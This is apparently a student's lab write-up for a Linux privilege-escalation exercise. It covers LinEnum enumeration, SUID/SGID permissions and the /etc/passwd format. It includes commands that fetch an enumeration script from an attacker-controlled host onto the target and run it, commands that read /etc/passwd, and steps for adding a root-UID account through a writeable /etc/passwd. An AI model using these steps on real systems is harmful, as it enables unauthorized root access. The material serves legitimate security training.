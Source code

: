 Common Linux Privesc
####################
:Author: David Boyd
:Date: 2020-06-02
:SSH User: user3
:SSH Password: password

[Task 4] Enumeration
====================

LinEnum
	a bash script that perfoms common commands related to privilege escalation.

	Saves time (allowing more effort to be put toward getting root).

Get LinEnum
-----------

curl -O https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

	- -O, --remote-name

		-O'riginal'-rem'O'te-name.  Writes output to a local file with the same
		name as the original remote name.

Push LinEnum on TM (Target Machine)
-----------------------------------

Steps
~~~~~

1.	Setup Python server on your machine
2.	from TM (target machine), wget your.Machine.IP.addr:port/file.sh
3.	from TM, chmod +x file.sh && run file.sh

Python3
~~~~~~~

http.server    (import http.server)
	this module defines classes for implementing HTTP servers (Web servers).

	-m

Issues
~~~~~~
:Issue: Python2 code is deprecated.
:Tricks: Use the **2to3** utility to convert Python2 prgms to Python3.
:Solution: The *SimpleHTTPServer* module has been merged into the
           *http.server* in Python 3.0

.. code-block:: Python

	python3 -m http.server 8000

	python -m SimpleHTTPServer 8000

The http.server is invoked directly using the *-m* switch of the interpreter
with a port number argument.  **This serves files relative to the currect
directory.**  // Think: -m = "main directory"

Sandbox
~~~~~~~

.. image:: ./http.server_python3_file-xfer.png

.. code-block:: Python

	# My machine
	python3 -m http.server 8000

	# TM
	wget my.ip.addr.ess:8000/LinEnum.sh
	chmod +x LinEnum.sh
	./LinEnum.sh


Questions
---------
:Notes: https://regexone.com for grep refresher
:grep: {m} = matching repreated characters

.. code-block:: Bash

	# What is the target's hostname?
	hostname

	# Look at the output of /etc/passwd,
	# how many "user[x]" are there on the system?
	cat /etc/passwd | grep user
	cat /etc/passwd | grep user[0-9] | cut -d ':' -f1
	### method 3) searches UID >= 1000
	cat /etc/passwd | grep -E '1([0-9]){3}'

	# How many available shells are there on the system?
	cat -n /etc/shells

	# What critical file has had it permissions changed to allow some users to
	# write to it?
	### > critical files include /etc/, /var/
	### > permissions change would typically include user groups' changes
	ls -l | grep -E "\-[rwx-]{4}w]"

[Task 5] Abusing SUID/SGID Files
================================
:rwx-: read, write, execute, NO permissions
:--s--S--t: SUID w/ execution, SUID w/o exec, sTicky bit
:NOTE: GUID/SGID are used interchangably.

.. image:: ./special-permissions.png

First step in privilege escalation exploitation is to check for files with
SUID/SGID bit set.  This means that the file(s) can be run with the permissions
of the file(s) owner/group.

SUID
----
:SUID: https://linuxhandbook.com/suid-sgid-sticky/
:s: stands for 'Set'
:SUID: SetUID

SUID (Set User ID) binary
	a special type of file permission given to a file (everything in Linux is a
	file!).  Normally in Linux/UNIX when a program runs, it inherit's access
	permissions from the logged in user.  SUID is defined as *giving temporary
	permissions to a user to run a program/file with the permissions of the
	file owner, rather than that of the user who runs it.* In simple words,
	**users will get owner's permsissions as well as owner UID and GID when
	executing a file/program/command**.

:SUID with execute permissions: -rws------
:SUID without execute permissions: -rwS------
:Change SUID execute permissions: chmod u+[sS] filename

SGID (Set Group ID)
	any user executing the file will have the same permissions as the *group
	owner* of the file.

:SGID with execute permissions: ----rws---
:SGID without execute permissions: ----rwS---
:Change SGID execute permissions: chmod g+[sS] filename
:Example: ls -l /var/local
:Practical Usage: Samba server for sharing files on local netw.

Where is SUID used?
~~~~~~~~~~~~~~~~~~~

	1.	Where root login is required to execute some cmds/prgms/scripts.
	2.	Where you don't want to give credentials of a particular user, but want
	    to run some prgms as the owner.
	3.	Where you don't want to use 'sudo' cmd, but want to give execute
	    permission for a file/script.

SUID/SGID/sTicky bit for a file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code-block:: Bash

	###
	### Setup
	###
	# method 1
	chmod u+s file.name (SUID)
	chmod g+s file.name (SGID)
	chmod +t dir.name   (sTicky bit)

	# method 2
	chmod 4nnn file.name    # where nnn is [0-7] respectively.

	###
	### Remove
	###
	# method 1
	chmod u-s file.name
	chmod g-s file.name
	chmod -t dir.name   (sTicky bit)

	# method 2
	chmod 0nnn file.name    # where nnn is [0-7] respectively.
	chmod 0nnn file.name    # SGID is the same as SUID to rm
	chmod 0nnn file.name    # sTicky bit is the same as SUID to rm

	###
	### Find SUID/SGID files
	###
	find / -perm /4000      # SUID
	find / -perm /2000      # SGID
	find / -perm /1000      # sTicky bit
	# [THM] method
	find / -perm -u=s -type f 2>/dev/null

Bonus
~~~~~
:d--------t: sTicky bit
:T/t: sTick bit ONLY, sticky bit +x

Sticky Bit
	only file owner(s) can mv/rm dir/files within a directory.  **Sticky bits
	only works with DIRECTORIES!!!**

Questions
---------

.. code-block:: Bash

	#1 What is the path of the file in user3's directory that stands out to
	# you?
	ls
	ls -al
	# find doesn't show s/g/
	find ./ -perm /4000
	find / -perm /4000 2>/dev/null
	find / -perm /4000 -o -perm /2000 -o -perm /1000 2>/dev/null

	# We know that "shell" is a SUID bit file, therefore running it will run
	# the script as a root user!  Lets run it!  We can do this by running:
	# "./shell"
	<no answer needed>

	# Congratulations!  You should now have a shell as root user, well done!
	<wtf?>

[Task 6] Exploiting Writeable /etc/passwd
=========================================

/etc/passwd
	a *plain text file* that contains a list of **system's accounts (user ID,
	group ID, home directory, shell, and more)**.  Useful to map user IDs to
	user names.  Write access is limited to superuser/root account.


IF (non-root user has write access) {
	VULNERABILITY;
	vulnerability {
		adduser root2;  // root user that we can access
	}
}

Understanding /etc/passwd format
--------------------------------
:Overview: One 'user acc' per line; separated by ':'; total 7 fields.

|---+----------------+---------------------------------------------------------|
| # | Field Name     | Field Description                                       |
|---+----------------+---------------------------------------------------------|
| 1 | Username       | Used when user logs in (1-32 chars)                     |
|---+----------------+---------------------------------------------------------|
| 2 | Password       | x = encrypted > stored in /etc/shadow                   |
|   |                | **CMD:passwd - compute/update/store hash of password**  |
|   |                | **in /etc/shadow file; password hash is stored as 'x'** |
|---+----------------+---------------------------------------------------------|
| 3 | UID (User ID)  | Each user is assigned a UID.                            |
|   |                | 0=root;                                                 |
|   |                | 1-99=predefined accts;                                  |
|   |                | 100-999=admin&sysAccts/groups                           |
|---+----------------+---------------------------------------------------------|
| 4 | GID (Group ID) | The primary group ID > stored in /etc/group             |
|---+----------------+---------------------------------------------------------|
| 5 | User ID Info   | Comment field.  Add extra info about user:              |
|   |                | full name, phone number, etc.                           |
|   |                | **Cmd:finger**                                          |
|---+----------------+---------------------------------------------------------|
| 6 | Home Directory | Absolute path to the dir the user will be in when they  |
|   |                | log in.  If != exist; then dir = /                      |
|---+----------------+---------------------------------------------------------|
| 7 | Command/Shell  | Absolute path of a command/shell (/bin/bash)            |
|   |                | Usu. a 'shell'; but doesn't have to be a shell.         |
|---+----------------+---------------------------------------------------------|


Example
~~~~~~~

|-------------+-------------+--------+--------+-----------------+-------------+--------------|
| 1. Username | 2. Password | 3. UID | 4. GID | 5. User ID Info | 6. Home Dir | 7. Cmd/Shell |
|-------------+-------------+--------+--------+-----------------+-------------+--------------|
| test:       | x:          | 0:     | 0:     | root:           | /root:      | /bin/bash    |
|-------------+-------------+--------+--------+-----------------+-------------+--------------|

How to exploit a writeable /etc/passwd
--------------------------------------

If (have writeable /etc/passwd file) {
	adduser with root UID, GID, etc;
}



